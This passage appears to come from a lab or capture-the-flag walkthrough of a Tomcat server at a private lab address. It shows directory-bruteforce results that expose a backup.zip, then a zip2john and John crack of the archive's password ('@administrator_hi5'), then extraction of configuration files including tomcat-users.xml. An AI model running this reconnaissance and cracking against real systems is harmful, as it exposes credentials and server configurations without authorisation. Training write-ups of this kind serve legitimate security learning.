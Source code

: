 ```bash
404      GET        1l       68w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        0l        0w        0c http://192.168.56.137:8080/docs => http://192.168.56.137:8080/docs/
401      GET       63l      291w     2499c http://192.168.56.137:8080/manager/html
200      GET      967l     1204w    67795c http://192.168.56.137:8080/tomcat.svg
200      GET       34l      158w     1156c http://192.168.56.137:8080/docs/api/index.html
<SNIP>
302      GET        0l        0w        0c http://192.168.56.137:8080/examples => http://192.168.56.137:8080/examples/
200      GET      121l      777w    60227c http://192.168.56.137:8080/backup.zip
200      GET        2l       29w      153c http://192.168.56.137:8080/readme.txt
302      GET        0l        0w        0c http://192.168.56.137:8080/manager => http://192.168.56.137:8080/manager/
```

Most of the results were just tomcat items, but there was an odd one out there, backup.zip. I decided to download that file and unzip it but it was password protected.

```bash
unzip backup.zip
Archive:  backup.zip
[backup.zip] catalina.policy password: 
   skipping: catalina.policy         incorrect password
   skipping: context.xml             incorrect password
   skipping: catalina.properties     incorrect password
   skipping: jaspic-providers.xml    incorrect password
   skipping: jaspic-providers.xsd    incorrect password
   skipping: logging.properties      incorrect password
   skipping: server.xml              incorrect password
   skipping: tomcat-users.xml        incorrect password
   skipping: tomcat-users.xsd        incorrect password
   skipping: web.xml                 incorrect password
```

So it seems we need to perform some more bruteforcing. I used zip2john to retrieve the hash and store it in another file, and then crack it using John.

```bash
john hash.hash --show
backup.zip:@administrator_hi5::backup.zip:jaspic-providers.xml, context.xml, tomcat-users.xsd, jaspic-providers.xsd, logging.properties, tomcat-users.xml, catalina.properties, server.xml:backup.zip

1 password hash cracked, 0 left
```

We get the password @administrator_hi5

Using that to unzip the file we get a few files back

```bash
ls
catalina.policy  catalina.properties  context.xml  jaspic-providers.xml  jaspic-providers.xsd  logging.properties  server.xml  tomcat-users.xml  tomcat-users.xsd  web.xml
```
